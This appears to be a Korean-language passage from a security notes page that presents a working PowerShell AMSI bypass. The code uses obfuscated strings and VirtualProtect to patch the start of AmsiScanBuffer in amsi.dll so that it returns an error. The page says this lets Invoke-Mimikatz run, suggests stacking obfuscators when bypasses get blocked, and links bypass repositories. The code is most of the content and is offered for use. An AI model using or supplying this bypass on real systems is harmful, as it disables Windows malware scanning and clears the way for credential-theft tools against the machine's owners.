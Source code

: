 ```powershell
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$why = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$hmm = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($hmm)
$dest = [payload]::GetProcAddress($librarz, $why)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```

﻿`Add-Type` 을 이용해 winapi를 가져오고, 그것을 이용해 에러를 반환하는 어셈블리 코드를 `amsi.dll` 라이브러리의 `AmsiScanBuffer` 함수의 시작 지점에 덮어씌우는 코드다.

이를 이용하면 Invoke-Mimikatz 가 실행된다! - 07/03/2022 기준 (아마 몇 주 뒤에 막힐 것이다).

![](https://lh3.googleusercontent.com/bILbTPz93YDzaCh7S9oGjLkNs2eZhey0RW7guyYAjF4mkoeZs-Mp3\_rDHZxosXhagOaGzCch0IsXop5nE2aC10yFOxNVO3exaovcJmF9SHyGMdbTAmdKlchwp5BINUAoRUYCFBqo=s0)

### 추가

AMSI 우회 페이로드는 많이 있지만, 나오는 족족 막히기도 한다. 재밌는 점은 난독화 툴을 2\~3개를 이용해 중첩 난독화를 하면 다시 또 AMSI 우회가 된다. (...)

### 레퍼런스

{% embed url="https://github.com/rasta-mouse/AmsiScanBufferBypass" %}

{% embed url="https://rastamouse.me/memory-patching-amsi-bypass/" %}

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}

{% embed url="https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf" %}
